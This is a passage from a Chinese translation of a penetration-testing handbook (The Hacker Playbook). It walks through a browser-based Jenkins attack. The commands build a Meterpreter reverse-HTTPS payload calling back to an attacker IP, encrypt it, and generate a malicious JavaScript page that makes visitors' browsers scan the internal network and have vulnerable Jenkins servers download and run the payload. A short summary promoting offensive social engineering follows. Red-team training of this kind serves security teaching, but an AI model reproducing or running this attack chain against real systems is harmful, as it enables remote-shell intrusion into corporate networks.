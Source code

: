 在 THP Kali 虚拟机上利用 Jenkins：
> 译者注:专门为本书开发的集成了所有环境的 Kali 虚拟机，本书第一章有介绍。THP 就是 The Hacker Playbook,本书的英文简称。<br>
- 下载 THP Jenkins 漏洞利用工具（ http://bit.ly/2IUG8cs ）。
- 要执行该实验，我们首先需要创建一个 Meterpreter payload：
```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_IP> LPORT=8080 -f exe > badware.exe
```
- 加密我们的 Meterpreter 二进制文件：
```shell
cd /opt/generateJenkinsExploit
python3 ./generateJenkinsExploit.py -e badware.exe
```
- 创建我们的恶意 JavaScript 页面命名为`badware.html`：
```shell
python3 ./generateJenkinsExploit.py -p http://<attacker_IP>/badware.exe.encrypted > badware.html
```
- 将加密的二进制和恶意 JavaScript 页面都移动到 Web 目录:
```shell
mv badware.html /var/www/html/
mv badware.exe.encrypted /var/www/html/
```

![](img/chapter_5/5-14.png)

现在，在完全不同的系统上，你可以使用 Chrome 或 Firefox 浏览器访问你的攻击者网页：http://<attacker_IP>/badware.html 。只需访问该恶意页面，你的浏览器就会通过我们的 Groovy payload，使用 JavaScript 和 POST 请求对你的内部 /24 网络经由8080端口进行攻击。当它找到一个 Jenkins 服务器时，它将导致该服务器下载我们的加密 Meterpreter ，解密并执行它。在公司网络中，你最终可能会得到大量不同的 shell 。

![](img/chapter_5/5-15.png)

任何允许通过 GET 或 POST HTTP 方法进行未经身份验证的代码执行的场景都可以使用此种攻击手法。对于此类攻击，你需要确定受害者在内部使用哪些应用程序并制定你的恶意攻击。


## 本章总结
社会工程学攻击是一种类似于猫捉老鼠的游戏。这种攻击在很大程度上依赖于人的因素，并瞄准人性中恐惧、紧迫和易于轻信等弱点。通过利用这些人性的漏洞，我们可以创建非常巧妙的入侵行动，这些入侵行动在系统攻击方面具有很高的成功率。

在衡量标准和目标方面，我们需要从消极等待用户、报告钓鱼网页/钓鱼电子邮件等的相关数据这样的反应模型中跳脱出来，转而采用主动模式。我们可以积极狩猎、主动发起包括但不限于以上介绍的这些类型的恶意社工攻击。
